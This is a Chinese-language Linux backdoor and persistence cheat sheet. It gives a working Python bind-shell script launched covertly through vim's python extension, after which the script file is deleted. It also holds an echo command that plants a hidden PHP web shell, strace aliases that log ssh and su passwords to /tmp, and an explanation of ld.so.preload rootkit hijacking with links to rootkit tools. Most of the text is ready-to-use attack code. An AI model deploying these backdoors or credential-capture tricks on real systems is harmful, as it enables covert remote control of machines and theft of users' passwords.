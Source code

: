 **vim后门**

此方法适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统,至于恶意脚本dir.py的内容可以是任何功能的后门。如python版本的正向后门监听11端口。

检测有无扩展
```bash
vim --version | grep python
```

enter the mal script directory 、execute the script and then remove the script
`cd /usr/lib/python2.7/site-packages`

```python
vim dir.py
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
`$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py`

read more [[DARK] Weapons of Text Destruction](https://github.com/jaredestroud/WOTD/blob/master/%5BDARK%5D%20Weapons%20of%20%20Text%20Destruction.pdf)

**终端解析\r导致的问题**
```bash
echo -e "<?=\`\$_POST[good]\`?>\r<?='PHP Test Page >||<                  ';?>" >/var/www/html/test.php
```

**strace记录ssh登录密码**

注意bash_profile是在登录的shell执行的，bashrc是在非登录的shell执行,即如果你只是想每次在登录的时候让它去执行，这个时候你可以把你的命令写在.bash_profile,如果你想每次打开一个新的终端的时候都去执行，那么应该把命令写在.bashrc中。
```bash
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh'
# 也可记录 su密码
alias su='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 su'

grep "read(3" /tmp/sshpwd-名字自己补全  | tail -n 11
```

**预加载型动态链接库后门 ld.so.preload**

在linux下执行某个可执行文件之前，系统会预先加载用户定义的动态链接库的一种技术，这个技术可以重写系统的库函数，导致发生Hijack
strace 命令id的时候可以发现有预先去读取/etc/ld.so.preload文件(也可使用设置LD_PRELAOD环境变量方式)，如果我们将事先写好的恶意so文件位置写入ld.so.preload文件，这个时候就会达到“劫持”的效果。
比较好用的工具有Vegile和cub3等
[cub3](https://github.com/mempodippy/cub3),这个工具使用了LD_PRELOAD和系统的扩展属性去隐藏文件。
其中还有一种是通过修改动态链接器来加载恶意动态链接库的后门，通过替换或者修改动态链接器中的默认预加载配置文件/etc/ld.so.preload路径的rootkit，此方法更加隐蔽，这个方法的较成熟的利用工具是Vlany，github地址https://github.com/mempodippy/vlany
